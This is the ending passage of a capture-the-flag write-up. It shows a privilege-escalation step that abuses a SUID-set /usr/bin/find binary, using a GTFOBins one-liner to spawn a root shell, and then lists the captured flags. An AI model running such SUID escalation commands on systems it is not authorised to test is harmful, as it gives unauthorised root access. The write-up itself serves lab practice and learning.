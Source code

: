 7. Now check **suid** for any suspicious files we notice **/usr/bin/find** checking GTFO we can exploit this for **root**:
```bash
usr/bin/find . -exec /bin/sh -p \; -quit
```

8. We are now root!

---

# Trophy & Loot

.secret / user.txt = *You made it till here, well done.*
root.txt = *It wasn't that hard, was it?*

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 20th 2023 (12:29 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
